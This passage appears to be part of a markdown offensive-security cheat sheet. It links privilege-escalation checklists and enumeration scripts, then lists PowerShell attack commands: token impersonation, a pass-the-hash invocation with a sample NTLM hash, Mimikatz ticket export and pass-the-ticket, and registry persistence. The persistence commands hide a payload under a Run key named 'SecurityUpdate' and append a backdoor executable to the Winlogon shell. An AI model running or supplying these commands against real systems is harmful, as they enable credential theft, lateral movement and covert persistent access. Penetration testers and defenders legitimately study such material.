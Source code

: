 ### Key Resources
- 📋 [Windows Privilege Escalation Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- 📋 [Linux Privilege Escalation Checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- 🔧 [WinPEAS - Windows PrivEsc Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- 🔧 [LinPEAS - Linux PrivEsc Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- 🔧 [LinEnum - Linux Enumeration](https://github.com/rebootuser/LinEnum)

---

## 🔐 Credential Access & Token Manipulation

### Windows Token Manipulation
```powershell
# Token impersonation with PowerShell
# Get system tokens
Get-Process | Where-Object {$_.ProcessName -eq "winlogon"} | Select-Object Id
# Impersonate token
Invoke-TokenManipulation -ImpersonateUser -Username "DOMAIN\Administrator"

# Pass-the-Hash attacks
Invoke-WMIExec -Target 192.168.1.100 -Username Administrator -Hash 32196B56FFE6F45E294117B91A83BF38

# Pass-the-Ticket attacks
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

### Credential Harvesting
- 🔑 [Windows Access Tokens and Alternate Credentials](https://blog.cobaltstrike.com/2015/12/16/windows-access-tokens-and-alternate-credentials/)
- 🔑 [Bringing Hashes Home with reGeorg & Empire](https://sensepost.com/blog/2016/bringing-the-hashes-home-with-regeorg-empire/)
- 🔑 [Intercepting Passwords with Empire](https://sensepost.com/blog/2016/intercepting-passwords-with-empire-and-winning/)

---

## 📧 Persistence Techniques

### Registry-Based Persistence
```powershell
# Run key persistence
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityUpdate" -Value "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\temp\payload.ps1"

# Winlogon persistence
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "explorer.exe,C:\temp\backdoor.exe"
```
